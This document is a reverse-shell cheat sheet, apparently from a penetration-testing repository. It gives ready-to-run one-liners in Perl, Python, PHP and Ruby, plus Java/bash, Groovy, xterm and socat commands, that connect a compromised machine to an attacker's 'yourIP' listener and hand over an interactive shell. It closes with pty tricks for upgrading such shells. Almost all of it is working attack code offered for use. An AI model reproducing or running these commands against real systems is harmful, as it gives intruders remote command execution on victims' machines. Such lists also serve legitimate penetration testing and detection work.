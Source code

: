 * Perl Windows     
`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"yourIP:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`


* Python     
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("yourIP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

* PHP     
`php -r '$sock=fsockopen("yourIP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

* Ruby     
`ruby -rsocket -e'f=TCPSocket.open("yourIP",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

* Java (Linux)     
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/yourIP/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

* Groovy
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();po.flush();
Thread.sleep(50);
try {p.exitValue();
break;
}catch (Exception e){}};
p.destroy();
s.close();

```

* xterm

`xterm -display yourIP:1`

And on your side authorize the connection with `xhost +targetIp` and catch it with `Xnest :1`

* socat

Listener:
```socat file:`tty`,raw,echo=0 yourIP:4444```

target:
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:yourIP:4444`

## Interactive Shell Upgrade Tricks

* Python (Linux)     
`python -c 'import pty; pty.spawn("/bin/bash")' `

* Python (Windows)     
`c:\python26\python.exe -c 'import pty; pty.spawn("c:\\windows\\system32\\cmd.exe")' `

```